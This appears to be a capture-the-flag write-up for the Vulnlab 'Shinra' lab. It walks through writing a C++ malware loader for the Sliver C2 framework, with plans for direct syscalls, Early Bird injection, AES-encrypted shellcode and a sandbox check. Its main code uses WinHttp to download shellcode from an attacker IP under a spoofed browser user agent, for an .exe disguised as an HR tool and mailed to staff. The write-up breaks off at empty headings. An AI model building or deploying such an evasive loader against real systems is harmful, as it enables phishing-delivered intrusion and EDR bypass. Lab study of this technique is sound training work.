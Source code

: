 ```yaml
---
title: VL Shinra - Writing a loader
date: 2024-01-27
categories: [Vulnlab]
tags: [CTF, Windows, Labs, EDR, Evasion, Sliver]
pin: false
---
```


## Loader design
Before we start with the fun stuff we first have to decide what our goals are and what we need to achieve them.
We need to make a .exe as the email by HR stated they would like the HR tool mailed to them again.

We will be using the Sliver C2 framework throughout this lab so we will use the shellcode of Sliver without obfuscation offered by Sliver.
Sliver is written in Golang and even the shellcode is huge so retrieving this remotely would be nice and gives us flexebility when we need to change anything to our shellcode. 

XCT creaed a [Opsec Consideration](https://wiki.vulnlab.com/lab-notes/misc/opsec-considerations) page so we will be using these recommendations:
- SysWhisperer3
- Early Bird
- Keeping memory RX

In addition to this we will add some additional features such as:
- Encrypted shellcode with AES
- Sandbox escaping by verifying the username

Throughout this writeup we will be writing in C++ and a little bit of Python.

## SysWhisperer3 Direct Syscalls
We start with generating the neccesary files for our direct syscalls with [SysWhisperer3](https://github.com/klezVirus/SysWhispers3).
This project supports both direct and indirect syscalls, the main difference between these two is the way the syscall is made. With direct syscalls the syscall will be performed from our own .exe instead of going through NTDLL first which is abnormal and can be an IoC. Indirect syscalls solves this problem by making the syscalls via NTDLL instead of from our own .exe. A great source to get more details on this is the amazing [blogpost from RedOps](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls).

Once the repo is on your dev VM, we can generate the required syscalls with the following command:
```
python .\syswhispers.py --preset common -o <path/to/your/project/syscalls_common>
```

This will create a couple of new files:
![syscall-common](assets/img/vl-shinra/image.png)


## Remote Shellcode
We will first start with building function that should retrieve our shellcode. Microsoft has some amazingly documented WinAPIs for this [WinHttp](https://learn.microsoft.com/en-us/windows/win32/winhttp/winhttp-sessions-overview).

We start with defining some macros to make it easier to reuse the code:
```cpp
#define URL L"10.8.0.69"
#define FILENAME L"bushi.bin"
#define HOST_HEADER L"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0"
```

The first two are self explaining, the header is a good practise to always add since many enterprises do not allow requests to the internet without host-headers.
We now start following the docs and slowly build our GET request.

We first will be calling [WinHttpOpen](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopen), the return value states that it will return a session handle if succesful and otherwise NULL:
```cpp
HANDLE hInternet = WinHttpOpen(HOST_HEADER, WINHTTP_ACCESS_TYPE_NO_PROXY, WINHTTP_NO_PROXY_NAME, nullptr, 0);
if (hInternet == nullptr) {
    printf("[!] WinHttpOpen failed with %lu \n", GetLastError());
    exit(0);
}
```

We can now use [WinHttpConnect](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpconnect) to specify our target URL and some extra options:
```cpp
    HANDLE hConnect = WinHttpConnect(hInternet, URL, INTERNET_DEFAULT_HTTP_PORT, 0);
    if (hConnect == nullptr) {
        printf("[!] WinHttpConnect failed with %lu \n", GetLastError());
        exit(0);
    }
```

[WinHttpOpenReuqest](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopenrequest) opens a HTTP request for our resourcen and returns a handle which we need to actually send the request.
```cpp
    HANDLE hRequest = WinHttpOpenRequest(hConnect, L"GET", FILENAME, nullptr, nullptr, nullptr, 0);
    if (hRequest == NULL) {
        printf("[!] WinHttpOpenRequest failed with %lu \n", GetLastError());
        exit(0);
    }
```

We do not need to add extra request headers so we can skip over WinHttpAddRequestHeaders and go straight to [WinHttpSendRequest](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpsendrequest):
```cpp
    BOOL Status = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    if (Status == FALSE) {
        printf("[!] WinHttpSendRequest failed with %lu \n", GetLastError());
    }
```
Now our request is send we somehow have to get the data we need, we will be using WinHttpReceiveResponse and WinHttpReadData for that

## Decrypting our shellcode

## Early Bird Injection